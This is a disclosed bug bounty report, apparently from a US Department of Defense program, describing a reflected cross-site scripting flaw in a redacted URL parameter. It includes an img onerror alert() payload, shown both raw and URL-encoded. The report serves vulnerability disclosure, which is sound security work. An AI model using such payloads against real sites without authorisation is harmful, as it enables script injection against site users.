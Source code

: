 # xss on https://███████(█████████ parameter)

## Report Details
- **Report ID**: 1143780
- **URL**: https://hackerone.com/reports/1143780
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-31T23:34:21.510Z
- **Disclosed**: 2021-07-29T19:39:27.606Z

## Reporter
- **Username**: fiveguyslover
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Greetings, i've found an xss on https://████████(██████████ parameter)

link :████████.█████████████=%22/%3E%3Cimg%20src=x%20onerror=(alert)(1)%3E
Payload : 
```
"/><img src=x onerror=(alert)(1)/>
```
████████

best regards,
frenchvlad

## Impact

A reflected XSS vulnerability happens when the user input from a URL or POST data is reflected on the page without being stored, thus allowing the attacker to inject malicious content.

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
link :██████████████████.████████████=%22/%3E%3Cimg%20src=x%20onerror=(alert)(1)%3E

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
